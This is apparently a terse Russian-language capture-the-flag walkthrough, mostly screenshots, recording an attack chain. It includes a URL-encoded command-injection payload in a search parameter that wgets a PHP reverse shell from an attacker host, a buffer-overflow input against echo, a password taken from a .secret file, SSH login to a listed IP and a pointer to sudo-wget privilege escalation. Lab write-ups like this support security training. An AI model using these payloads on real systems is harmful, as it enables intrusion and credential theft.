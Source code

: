 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

find / -user nolan

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')

Читаем файл .secret там пароль

Заходим по ssh ssh nolan@62.173.140.174 -p 18822

'''sudo -l'''

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



